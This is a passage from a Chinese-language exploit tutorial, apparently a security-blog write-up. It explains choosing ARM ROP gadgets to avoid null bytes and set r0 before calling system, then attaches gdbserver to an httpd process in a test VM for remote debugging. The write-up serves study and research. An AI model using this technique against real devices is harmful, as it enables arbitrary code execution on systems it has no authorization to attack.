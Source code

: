 选取的 gadget 如下：

```plain
pop {r1, pc} 
mov r0, r1 ; pop {r4, r5, pc}
```

为什么不直接选 pop {r0,pc}？因为 pop {r0,pc}对应的地址 0x00033100 中有截断符\\x00，且 libc 基址最后也是\\x00，所以用 pip {r0,pc}会导致输入中断，无法继续利用。所以只能通过先将参数地址传给 r1，之后再 mov 到 r0 中去。

让 r0 指向栈上指定的内容，之后再执行 system 函数就能任意代码执行了。

利用脚本作者也给我们提供了模版，在这个目录下

```plain
./tools/
```

[![](assets/1706496082-af0618c9bbeab344838893412c21fc30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170016-5314acb6-bc29-1.png)

不过这个还是要我们自己调试出对应加载地址和寄存器地址

在测试虚拟机中打开 gdb，先映射一个端口，然后 target remote 192.168.2.2:1234 即可调试

```plain
root@debian-armel:~# ./tools/gdbserver --attach :8888 `ps | grep -v grep | grep httpd | awk '{prin
t $1}'`
Attached; pid = 2298
Listening on port 8888
```

```plain
root@6f747349c6c3:~/tools# gdb
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) target remote 192.168.2.2:8888
Remote debugging using 192.168.2.2:8888
```
